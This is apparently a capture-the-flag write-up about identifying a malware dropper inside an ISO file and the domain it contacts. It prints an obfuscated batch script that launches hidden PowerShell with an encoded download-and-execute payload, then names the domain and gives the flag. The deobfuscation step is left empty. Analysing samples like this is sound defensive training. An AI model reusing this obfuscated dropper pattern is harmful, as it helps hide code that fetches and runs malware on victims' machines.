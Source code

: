 # Transformers #2


## Presentation

Can you identify to wich malware dropper the iso file is related ? Beside, it looks like the dropper is contacting a remote ressources, can you extract the domain name the dropper tries to reach ?


TLP:GREEN/PAP:AMBER

Format : **HERO{Dropper Name;domain}**
Example : HERO{Dropper;abcd.ef}

## Write-up

```
strings monthly-report-S3-2024.iso

...
@echo off
:drzclsxvupw
set nqudlc=q
:jgvinpsutyw
set fiezbj=a
:rxqbgdzfitm
set msonvq=y
:nrsowealbgt
set dhltmr=u
:kmrdcueqphz
set sgcuek=m
:oxwnaylmrbe
set vzbtmg=z
:zkcdvpsuyla
set fysdib=o
:xfhmgkeciqd
set wvopta=j
:nzywfxjsarm
set skuweh=s
:udpthcvznyf
set dayvow=r
:ksxpbguolhi
set qtlekd=w
:ezkafqrjmsg
set ynwiok=f
:tlubafkrcjq
set fblvmd=b
:miydogxwuze
set nryihu=p
:shbclnfxmug
set msotjd=v
:vrkdhtwycse
set beicuz=d
:mlriuxhvktd
set vmefxs=e
:gwflzjxyrke
set yplurb=c
:iaqcolgbmjx
set koxzju=n
:uwfesitardk
set ncbdqi=t
:yoclxjvthns
set wkcnoz=i
:bmuzlkxjgdo
set qawudo=l
:cihavwbtjxs
set tbilrv=h
:dkyqpfrguew
set wgtpdy=k
:jdoxmbsckre
set uhafms=x
:itjnoalbxfs
set ojuvcf=g
:hmdvrkgajxo
:X%yplurb%M%fblvmd%RDHB%nryihu%Z%beicuz%%nryihu%UW%qtlekd%WVA%msonvq%%wvopta%%tbilrv%I
%nryihu%%fysdib%%qtlekd%%vmefxs%%dayvow%%skuweh%%tbilrv%%vmefxs%%qawudo%%qawudo% -%qtlekd% %tbilrv%%wkcnoz%%beicuz%%beicuz%%vmefxs%%koxzju% -%koxzju%%fysdib%%nryihu% -%vmefxs%%nryihu% %fblvmd%%msonvq%%nryihu%%fiezbj%%skuweh%%skuweh% -%vmefxs%%koxzju%%yplurb% SQBFAF%ojuvcf%AIAA%fysdib%AE4AZQB3AC0AT%qtlekd%B%wkcnoz%AG%fysdib%AZQB%wvopta%AHQAIABOAGUA%beicuz%AA%dhltmr%AF%yplurb%AZQB%wkcnoz%AGMA%fblvmd%AB%nryihu%AGUA%fblvmd%%ojuvcf%B0AC%wgtpdy%AL%ojuvcf%B%wgtpdy%AG8A%beicuz%%qtlekd%B%dhltmr%AG%qtlekd%A%fblvmd%%qtlekd%B%tbilrv%AGQA%yplurb%%qtlekd%B0AHIA%fiezbj%QB%dhltmr%AG%yplurb%AKAA%wkcnoz%AG%ojuvcf%A%beicuz%AB0AHAAO%ojuvcf%A%msotjd%AC8A%fblvmd%QB%qawudo%AGUA%yplurb%%ojuvcf%B%msotjd%AG4A%fiezbj%QB4AHQAL%ojuvcf%B%wvopta%AG8A%fblvmd%QA%msotjd%AG%yplurb%AYQB0AGUAI%ojuvcf%A%nryihu%AA==
:EC%nryihu%%vzbtmg%%dhltmr%B%fysdib%V
...
```

Desofuscation:

```
$ sha256sum

```

Remote ressources: meeronixt.com


flag : HERO{lnk;meeronixt.com}


## Ressources 

* https://www.misp-project.org/taxonomies.html#_pap
